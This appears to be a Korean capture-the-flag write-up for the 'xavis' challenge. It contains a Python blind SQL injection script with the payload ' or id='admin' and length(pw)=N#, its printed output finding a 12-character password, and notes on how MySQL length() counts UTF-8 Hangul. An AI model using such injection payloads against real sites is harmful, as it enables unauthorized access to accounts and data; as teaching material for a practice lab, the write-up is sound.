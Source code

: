 ```php
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

## 풀이
regex,like에 대한 필터링만 걸려있는 blind sql injection 문제입니다. 위에 2개를 사용하지 않고 평범하게 blind sql injection을 수행해 줍니다.

평범하게 sql injection을 수행하면 비밀번호가 12자리 라는 것까지는 구할 수 있습니다.

```python
for i in range(30):
    payload="' or id='admin' and length(pw)={}#".format(i)
    print(payload)
    params["pw"] = payload
    response = requests.get(url,params=params,cookies=cookies)
    if("Hello admin" in response.text):
        print("find the pw_length",i)
        break

```

``` 
' or id='admin' and length(pw)=0#
' or id='admin' and length(pw)=1#
' or id='admin' and length(pw)=2#
' or id='admin' and length(pw)=3#
' or id='admin' and length(pw)=4#
' or id='admin' and length(pw)=5#
' or id='admin' and length(pw)=6#
' or id='admin' and length(pw)=7#
' or id='admin' and length(pw)=8#
' or id='admin' and length(pw)=9#
' or id='admin' and length(pw)=10#
' or id='admin' and length(pw)=11#
' or id='admin' and length(pw)=12#
find the pw_length 12
```

하지만, 기존에 blind sql injection을 수행할 때는 비밀번호가 영어 + 숫자의 조합이라고 가정하여 수행했기 때문에 이번 문제에서는 풀리지 않았습니다.

한참 삽질을 한 결과 이번 문제에서는 답이 한글이라는 사실을 알았습니다.

한글이나 다른 아스키가 아닌 UTF 문자가 섞여 있다면, 몇가지 제약 사항이 생깁니다. blind sql injection을 최대한 일반적인 상황에서 해결할 수 있도록 작성할 필요가 있어서 우선 헷갈리는 개념부터 정리를 해놓겠습니다.

### 문자열의 길이
UTF로 인코딩된 문자가 들어가면 length()의 리턴 값이 기존과 조금 다릅니다.

![image](https://user-images.githubusercontent.com/33647663/158164579-282f41ed-4163-45fa-890f-066aeb0aa69f.png)

현재 제 pc 로컬에 깔려있는 db에서 테스트 해봤을 때는 한글 한글자를 3글자로 리턴해 줍니다. 유니코드를 어떠한 방식으로 인코딩 하느냐에 따라서 결과는 다릅니다. 현재 UTF8로 인코딩 되어 있기 때문에 3글자이며, UTF32로 인코딩을 한다면 4바이트가 나올 수도있습니다.
